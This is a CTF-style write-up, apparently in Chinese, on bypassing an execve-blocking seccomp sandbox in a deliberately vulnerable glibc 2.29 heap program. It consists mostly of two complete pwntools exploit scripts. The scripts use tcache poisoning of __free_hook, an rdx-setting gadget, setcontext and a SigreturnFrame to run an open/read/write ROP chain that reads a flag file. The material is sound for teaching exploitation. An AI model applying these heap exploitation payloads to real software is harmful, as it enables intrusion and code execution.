

## glibc2.29下堆题绕过沙箱


还是用相同的题目

gcc -o test test.c

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
int Nodes_len[0x10];
char *Nodes[0x10];
int count=0;
int get_atoi()
{
	char buf[8];
	read(0,buf,8);	
	return atoi(buf);
}
void sandbox(){
	struct sock_filter filter[] = {
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS,4),
	BPF_JUMP(BPF_JMP+BPF_JEQ,0xc000003e,0,2),
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS,0),
	BPF_JUMP(BPF_JMP+BPF_JEQ,59,0,1),
	BPF_STMT(BPF_RET+BPF_K,SECCOMP_RET_KILL),
	BPF_STMT(BPF_RET+BPF_K,SECCOMP_RET_ALLOW),
	};
	struct sock_fprog prog = {
	.len = (unsigned short)(sizeof(filter)/sizeof(filter[0])),
	.filter = filter,
	};
	prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
	prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
}
void add(){
	int len;
	printf("len:");
	scanf("%d",&len);
	if(len<0||len>0xfff) exit(0);
	if(count>0x10){
		puts("too many");
		exit(0);
	}
	Nodes[count] = malloc(len);
	Nodes_len[count] = len;
	count++;
	puts("done!");
}

void del(){
	int idx;
	printf("idx:");
	scanf("%d",&idx);
	if(idx>count){
		puts("error!");
		exit(0);
	}
	free(Nodes[idx]);
	puts("done!");	
}

void edit(){
	int idx;
	printf("idx:");
	scanf("%d",&idx);
	if(idx>count){
		puts("error!");
		exit(0);
	}
	read(0,Nodes[idx],Nodes_len[idx]);
	puts("done!");
}
void show(){
	int idx;
	printf("idx:");
	scanf("%d",&idx);
	if(idx>count){
		puts("error!");
		exit(0);
	}
	write(1,Nodes[idx],Nodes_len[idx]);
}
void gift(){
	printf("heap_base:%p\n",Nodes[0]);
}
void menu(){
	puts("1.add");
	puts("2.delete");
	puts("3.edit");
	puts("4.show");
	puts("5.gift");
	puts("6.exit");
	printf("choice:");
}
void init() {
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	setvbuf(stderr, 0LL, 2, 0LL);
}

int main(){
	init();
	sandbox();
	while(1){
		int choice;
		menu();
		choice = get_atoi();
		switch(choice){
			case 1:
				add();
				break;
			case 2:
				del();
				break;
			case 3:
				edit();
				break;
			case 4:
				show();
				break;
			case 5:
				gift();
				break;
			default:
				puts("invalued input!");
				exit(0); 
		}
	}
	return 0;
} 
```


#### 方法一

2.29之后setcontext有所改变，参数传递由rdi变成了rdx，所以需要控制rdx寄存器指向SigreturnFrame。

这里用到了一条神奇的gadgets



```assembly
mov rdx, qword ptr [rdi + 8];
mov rax, qword ptr [rdi];
mov rdi, rdx;
jmp rax;
```

思路：

把free_hook指向这个gadgets，之后利用思路和之前类似


exp1

rop链写在堆上

```python
from pwn import*
context.log_level = 'debug'
p = process('./a.out')
libc = ELF('/home/tty18pwn/Desktop/glibc-all-in-one-master/libs/2.29-0ubuntu2_amd64/libc-2.29.so')
elf = ELF('./a.out')
context.arch = 'amd64'
def pr(a,addr):
	log.success(a+'====>'+hex(addr))
def add(length):
	p.sendlineafter(':','1')
	p.sendlineafter('len:',str(length))
def delete(idx):
	p.sendlineafter(':','2')
	p.sendlineafter('idx:',str(idx))
def edit(idx,ct):
	p.sendlineafter(':','3')
	p.sendlineafter('idx:',str(idx))
	p.send(ct)
def show(idx):
	p.sendlineafter(':','4')
	p.sendlineafter('idx:',str(idx))
add(0x500) #0
add(0x10) #1
delete(0)
show(0)

leak = u64(p.recv(6)+'\x00'*2)
p.sendlineafter(':','5')
p.recvuntil('heap_base:')
heapbase = int(p.recvuntil('\n')[:-1],16)-0x260
libcbase = leak - (0x7fb553f5cca0-0x00007fb553d78000)
free_hook = libcbase + libc.sym['__free_hook']
pr('libcbase',libcbase)
pr('heapbase',heapbase)
gadgets = libcbase + 0x000000000012be97
setcontext_door = libcbase + libc.sym['setcontext']+53

delete(1)
edit(1,p64(free_hook))

add(0x10)#2
add(0x10)#3
edit(3,p64(gadgets))

#===============================================
prdi_ret = libcbase+0x0000000000026542
prsi_ret = libcbase+0x0000000000026f9e
prdx_ret = libcbase+0x000000000012bda6
ret = libcbase+libc.search(asm("ret")).next()
def ropchain(function,arg1,arg2,arg3):
	ret  = p64(prdi_ret)+p64(arg1)
	ret += p64(prsi_ret)+p64(arg2)
	ret += p64(prdx_ret)+p64(arg3)
	ret += p64(function)
	return ret
read_addr = libcbase + libc.sym['read']
open_addr = libcbase + libc.sym['open']
write_addr = libcbase + libc.sym['write']

rop_addr = heapbase + 0x260+0x100
flag_string_addr = rop_addr + 0x200
payload = ropchain(open_addr,flag_string_addr,0,0)
payload += ropchain(read_addr,3,flag_string_addr,0x30)
payload += ropchain(write_addr,1,flag_string_addr,0x30)
payload = payload.ljust(0x200,'\x00')+'./flag\x00'

#=========================setcontext===========================
frame = SigreturnFrame()

frame.rsi=rop_addr
frame.rsp=rop_addr 
frame.rip=libcbase + libc.sym['setcontext']+127

add(0x500) #4
edit(4,p64(setcontext_door)+p64(heapbase+0x260)+str(frame).ljust(0x100,'\x00')[0x10:]+payload)
#gdb.attach(p,'b *'+str(gadgets))
#pause()
delete(4)

p.interactive()

```


exp2

rop链写在free_hook附近

```python
from pwn import*
context.log_level = 'debug'
p = process('./a.out')
libc = ELF('/home/tty18pwn/Desktop/glibc-all-in-one-master/libs/2.29-0ubuntu2_amd64/libc-2.29.so')
elf = ELF('./a.out')
context.arch = 'amd64'
def pr(a,addr):
	log.success(a+'====>'+hex(addr))
def add(length):
	p.sendlineafter(':','1')
	p.sendlineafter('len:',str(length))
def delete(idx):
	p.sendlineafter(':','2')
	p.sendlineafter('idx:',str(idx))
def edit(idx,ct):
	p.sendlineafter(':','3')
	p.sendlineafter('idx:',str(idx))
	p.send(ct)
def show(idx):
	p.sendlineafter(':','4')
	p.sendlineafter('idx:',str(idx))
add(0x500) #0
add(0x10) #1
delete(0)
show(0)

leak = u64(p.recv(6)+'\x00'*2)
p.sendlineafter(':','5')
p.recvuntil('heap_base:')
heapbase = int(p.recvuntil('\n')[:-1],16)-0x260
libcbase = leak - (0x7fb553f5cca0-0x00007fb553d78000)
free_hook = libcbase + libc.sym['__free_hook']
pr('libcbase',libcbase)
pr('heapbase',heapbase)
gadgets = libcbase + 0x000000000012be97
setcontext_door = libcbase + libc.sym['setcontext']+53

delete(1)
edit(1,p64(free_hook))

add(0x10)#2
add(0x10)#3
edit(3,p64(gadgets))

#=========================setcontext===========================
rop_addr = free_hook & 0xffffffffffffffff
frame = SigreturnFrame()

frame.rax=0
frame.rdi=0
frame.rsi=rop_addr
frame.rdx=0x300
frame.rsp=rop_addr 
frame.rip= libcbase+0xcf6c5#syscall;ret;

#===============================================
prdi_ret = libcbase+0x0000000000026542
prsi_ret = libcbase+0x0000000000026f9e
prdx_ret = libcbase+0x000000000012bda6
ret = libcbase+libc.search(asm("ret")).next()
def ropchain(function,arg1,arg2,arg3):
	ret  = p64(prdi_ret)+p64(arg1)
	ret += p64(prsi_ret)+p64(arg2)
	ret += p64(prdx_ret)+p64(arg3)
	ret += p64(function)
	return ret
read_addr = libcbase + libc.sym['read']
open_addr = libcbase + libc.sym['open']
write_addr = libcbase + libc.sym['write']

flag_string_addr = rop_addr + 0x200
payload = ropchain(open_addr,flag_string_addr,0,0)
payload += ropchain(read_addr,3,flag_string_addr,0x30)
payload += ropchain(write_addr,1,flag_string_addr,0x30)
payload = payload.ljust(0x200,'\x00')+'./flag\x00'


add(0x500) #4
edit(4,p64(setcontext_door)+p64(heapbase+0x260)+str(frame).ljust(0x100,'\x00')[0x10:])
#gdb.attach(p,'b *'+str(gadgets))

delete(4)
pause()
p.send(payload)
p.interactive()

```

